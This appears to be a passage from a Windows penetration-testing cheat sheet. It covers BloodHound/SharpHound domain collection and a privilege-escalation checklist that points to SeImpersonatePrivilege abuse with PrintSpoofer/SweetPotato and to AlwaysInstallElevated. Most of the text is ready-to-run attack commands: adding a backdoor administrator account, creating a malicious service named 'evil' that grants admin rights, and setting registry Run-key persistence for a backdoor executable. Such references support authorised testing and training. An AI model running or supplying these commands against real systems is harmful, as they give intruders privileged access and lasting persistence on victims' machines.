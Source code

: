 ## Run SharpHound for BloodHound data collection
```cmd
.\SharpHound.exe -c All
.\SharpHound.exe -c All -d domain.local
```

## Run bloodhound-python from attacker machine
```bash
bloodhound-python -d domain.local -u username -p password -gc $IP -c all
```

## Add new local administrator user
```cmd
net user hacker Password123! /add
net localgroup administrators hacker /add
```

## Create service backdoor
```cmd
sc create evil binpath= "cmd.exe /c net user hacker Password123! /add && net localgroup administrators hacker /add"
sc start evil
```

## Add registry persistence
```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v evil /t REG_SZ /d "C:\temp\backdoor.exe"
```

---

## Methodology

### Enumeration Priority
1. Run automated tools first (WinPEAS, PowerUp)
2. Check current user privileges (whoami /priv)
3. Look for SeImpersonatePrivilege or SeAssignPrimaryToken
4. Enumerate services for weak permissions
5. Search for credentials in files and registry
6. Check for unquoted service paths
7. Look for AlwaysInstallElevated registry keys

### High Priority Privilege Escalation Vectors

**Immediate Win (Check First):**
- SeImpersonatePrivilege enabled (use SweetPotato/PrintSpoofer)
- SeAssignPrimaryToken enabled (use SweetPotato/PrintSpoofer)
- SeBackupPrivilege enabled
- SeLoadDriver enabled
- SeDebug enabled
- AlwaysInstallElevated registry keys set
